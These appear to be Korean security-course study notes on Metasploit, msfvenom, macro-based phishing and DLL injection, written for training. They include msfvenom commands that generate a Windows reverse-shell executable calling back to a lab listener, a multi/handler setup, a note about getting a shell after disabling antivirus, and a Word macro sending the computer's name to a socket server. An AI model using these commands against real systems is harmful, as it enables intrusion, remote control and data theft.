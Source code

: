 # DAY 2

## 공격자 공격 방법 종류
  - EXE 파일
    1. 악성코드 생성도구(metasploit): 서버 백신 //서버백식은 악성코드 못잡은 경우 O
    2. DLL Injection
  - URL
  - MACRO
  - 웹 취약점
  - 모바일

## metasploit
### command
```
service postgresql start
service metasploit start
msfconsole
```
실행 안 될 경우
find /usr -name dalvik.rb -print <- 설정 파일 검색
마지막 줄 cert.not_after = cert.not_before + 3600 * 24 * 365 * 20
20 -> 2로 변경 후 저장

### command
```
search (search adobe)
use (exploit/linux/browser/adobe_flashplayer_aslaunch)
use windows/meterpreter/reverse_tcp //특정 공간 선택할 수 있음
back (cancel)
show options
set lhost 10.10.10.10
exploit //공격,      +encoders: 특정 기호로 변경
shellcode
bind (->)
reverse (<-)
```

#### senario
```
공격자가 피해자의 연결을 대기한다.
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 7070
set lhost 10.0.2.15
exploit
```

#### 악성코드 생성
커널에서
```
msfvenom -l payloads
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
c)
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
apk)
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
exe > mytext.exe
```
#### 공유폴더/파일전송
이더넷 인터페이스 통신으로 전송
```
file system/media/sf_폴더명
```
> mytext.exe 옮기니 알약이 감지함
> 백신 끄고 실행하니 쉘 따짐

#### 해야 할 것
- 행위분석 수집 프로그램 개발
- 전처리 프로그램 개발
- 데이터분석

#### 악성코드 메일 공격 방식
> 메일 자동 전송 1:다 공격 가능
> 수신확인 - 스크립트(html)
> 파이썬 코드로 메일 전송 가능(mime)

#### 워드 매크로(CDR?)
passwordchecker procexp에서 full dump 후 strings로 분석
strings PasswordChecker.dmp > a.txt
비밀번호, 메세지 등 문자열로 저장되어 있음
활용 ex
> c소켓 프로그래밍 <- 서버
> 워드 매크로 <- 클라이언트
> 악성 메일 보내서 클릭 여부 확인 가능


주체: 행위, 메모리, 실행파일
환경: 얘도 알아야



![day2_2](https://user-images.githubusercontent.com/50771111/88466051-756ab380-cf03-11ea-972a-a8c19b88ad2f.jpg)



### 서버
#### test123.c //server.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/socket.h>

#define  BUFF_SIZE   1024

int   main( void)
{
   int   server_socket;
   int   client_socket;
   int   client_addr_size;
   struct sockaddr_in   server_addr;
   struct sockaddr_in   client_addr;
   char   buff_rcv[BUFF_SIZE+5];
  server_socket  = socket( PF_INET, SOCK_STREAM, 0); //소켓 만듦
   memset( &server_addr, 0, sizeof( server_addr));
   server_addr.sin_family     = AF_INET; //인터넷
   server_addr.sin_port       = htons(7070); //포트 7070 -> 서버
   server_addr.sin_addr.s_addr= htonl( INADDR_ANY); //0.0.0.0 누구나 연결할 수 있음
bind( server_socket, (struct sockaddr*)&server_addr, sizeof( server_addr)); //위에서 세팅한 값 적용(bind)
listen(server_socket, 5); //최대 5명까지 붙을 수 있음
client_socket     = accept( server_socket, (struct sockaddr*)&client_addr, &client_addr_size); //accept : 기다리는 중
      read ( client_socket, buff_rcv, BUFF_SIZE);
      printf( "receive: %s\n", buff_rcv);
 close( client_socket);
 close(server_socket);
}
```

#### 매크로
윈도우만 WSAStartup 해줌!! -> 드라이버를 올림<br>
매크로 코드에서 ** connect(s,sa, Len(sa)) //연결, 서버의 accept로 도착<br>
send(s, comName(0), buf, 0) // 서버의 read로 보내줌

그렇다면 소켓이 뭐가 다른가
  문제는 동시에 여러명이 열면 어떻게 되는가
  => fork()로 멀티프로세싱 처리

### DLL 만들기
> 비주얼 스튜디오(파이썬으로 못만듦)
> 뉴 프로젝트 -> 콘솔 응용 프로그램 체크, DLL 체크로 생성
> DLL 생성
> message box(NULL, "Hello", "Test", MB_OK); //"Hello"라는 메세지 박스를 불르라는 의미

DLL은 혼자 프로그램 돌아갈 수 X
#### cmd
> rundll32.exe DLL파일 경로, main // rundll32.exe 라는 보안 프로그램이 있음, 강제적으로 부모 만들어주는 것!(가짜 main 생성)
=> **DLL Injection은 코드(메세지 박스)를 다른 프로그램에 삽입해서 실행될 수 있게 하는 것?!

### DLL Injection
DLL을 쓰는 프로그램 만들고 싶음
> LoadLibrary("testdll.dll"); //정상 프로그램에서 dll 쓸 수 있음
testdll.dll이 11자리이기 때문에 실행시키고 싶은 다른 프로그램에 11자리만큼 자리 만들어놔야함
> virtualAlloc(공간 할당할 프로그램의 pid, 자리수), ex. virtualAlloc(10, 11) //남의 프로그램에 11byte의 공간 할당됨 **=> x** <br>
> writeMemory(x, "내용(ex.aaa)"); //남의 메모리에 aaa 써짐 **=> y**
> GetProcAddress("&L-); //주소얻음 **=> z**
>CreateREmoteThread(z, y);

* 사용 함수
  - VirtualAllocEx
  - WriteProcessMemory
  - GetModuleHandle <- loadlibrary
  - GetProcAddress
  - RemoteThread





**snapshot**

#### cmd
>tasklist //프로그램의 pid 리스트
>tasklist | findstr 11772(pid) 

#### strings 프로그램
**cmd**
> strings injector.exe >a.txt //실행파일에 있는 문자열들이 a.txt에 들어가게 됨
